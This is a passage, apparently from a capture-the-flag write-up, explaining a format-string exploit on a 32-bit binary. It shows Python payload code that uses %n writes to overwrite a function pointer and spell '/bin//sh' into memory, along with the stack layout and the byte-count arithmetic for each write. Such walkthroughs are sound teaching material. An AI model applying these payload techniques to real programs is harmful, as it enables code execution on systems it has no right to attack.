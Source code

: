 We will write to the addresses  2 byte at the same time.

## Placing the addresses on the stack

The order at which the addresses are put on the **input** buffer is irrelevant, we just need to be careful with the offset.
```python
write_0x100_addr = p32(0x0804A02b)
choose_arg = 0x080486C7
function_pointer = p32(choose_arg)
bin_sh_addr = 0x0804A020
arg_addr = 0x0804A030

payload  = write_0x100_addr
payload += "%"+str(0x100-4)+"p"+ "%20$n"
payload = payload.ljust(20, "A") #  = 6*'A'
payload += function_pointer

payload += p32(arg_addr+2) # offset 26
payload += p32(arg_addr) # offset 27
payload += p32(bin_sh_addr+4) # offset 28
payload += p32(bin_sh_addr) # offset 29
payload += p32(bin_sh_addr+6) # offset 30
payload += p32(bin_sh_addr+2) # offset 31
# written 0x122 = 290
```
```
The stack will look like this:

0x0804A032
0x0804A030
0x0804A024
0x0804A020
0x0804A026
0x0804A022
Note: It could have another layout but we would need to change the offset's.
```
So far we have written 0x100 + 6('A') + 4*7 = 0x122 bytes

Now we need to write in ascending order:
```
1. 0x0804
2. 0x2f2f
3. 0x622f
4. 0x6873
5. 0x6e60
6. 0xA020

Since we have already printed 0x122 bytes, then we need to print 0x0804-0x122 = 1762 bytes in order to write 0x0804.
Now we have printed 0x0804 bytes, so to write 0x2f2f to the address we actually need to print 0x2f2f-0x804 = 10027, and so on...

```
